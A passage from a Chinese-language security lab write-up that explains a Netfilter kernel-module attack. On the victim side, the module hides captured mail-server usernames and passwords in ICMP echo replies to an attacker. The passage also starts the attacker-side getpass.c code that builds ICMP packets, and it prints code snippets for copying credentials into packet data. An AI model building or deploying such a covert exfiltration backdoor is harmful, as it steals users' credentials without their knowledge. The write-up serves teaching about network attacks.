        ```c
        sb->pkt_type = PACKET_OUTGOING;   //设置转发出去的类型，把接收到并修改的包类型设                                      置为转发出去的包
       ```

       

       （2）**代码分析**

       Netfilter对数据包进行过滤，过滤掉所有非ICMP包，然后找到ICMP首部的地址，然后对ICMP首部中的内容进行判断，查看其`code`字段是否含有暗号，且ICMP包的类型是否为ECHO包（type为8），**且要看ICMP请求包的数据部分的大小是否大于等于要回复的数据长度，这是为了防止误发。**

       **这里要回复的数据长度为36字节。**为什么是36字节呢？我们先看看要回复的数据：**服务器的IP地址，用户名和密码。**这里用户名和密码的长度都是规定的16字节（在后边复制时有出现）。所以为**4+16+16=36字节。**

       根据服务器IP地址的长度，用户名的长度和密码的长度，将数据复制到ICMP包的数据部分（cp_data指示）。

       ```c
        /* 现在将邮箱服务器的IP地址，然后用户名，然后密码复制到数据包*/
          /*cp_data指向数据部分，这里是跳过icmp首部*/ 
          cp_data = (char *)((char *)icmp + sizeof(struct icmphdr));
          /*将目标服务器的ip地址放到数据区域*/ 
          memcpy(cp_data, &target_ip, 4);  //IP地址为4字节
          
          /*将用户名和密码放到cp_data中*/ 
          if (username)
            /*跳过上面用掉的4字节*/ 
            memcpy(cp_data + 4, username, 16);
          if (password)
            /*跳过上面用掉的20字节*/ 
            memcpy(cp_data + 20, password, 16);
       ```

       最后释放相应的内存空间，并将变量置0。

       `NF_STOLEN`表示：受害者向攻击者发送用户名和密码的数据包实际上是在攻击者发过来的报文中修改的，修改后需要告诉系统忘记原有的那个skb，因为skb被修改，并以新的方式发送出去了。

       

#### 二、攻击者主机

* 代码文件：getpass.c文件；普通C文件。

* **代码分析：**

  （1）这里需要分配两个空间，一个是存放构造的ICMP_ECHO数据包的空间，一个是存放接收到的受害者回复的信息的空间；两者都需要初始化。

  ```c
      /*攻击者需要构造ICMP包，给其分配一定的空间*/
      unsigned char dgram[256];          /* Plenty for a PING datagram */
      /* 接收受害者传过来的回复ICMP包的buff(含用户名和密码)*/ 
      unsigned char recvbuff[256]; 
  ```

  （2）攻击者需要自己构造ICMP包，这里就用到了实验一的知识。

  这里先说明一下**sockaddr_in**结构体类型和**in_addr**结构体类型。

  ```c
  struct  sockaddr_in {
  	short  int  sin_family;               /* Address family */
  	unsigned  short  int  sin_port;       /* Port number */
  	struct  in_addr  sin_addr;            /* Internet address */
  	unsigned  char  sin_zero[8];          /* Same size as struct sockaddr */
  };
  ```
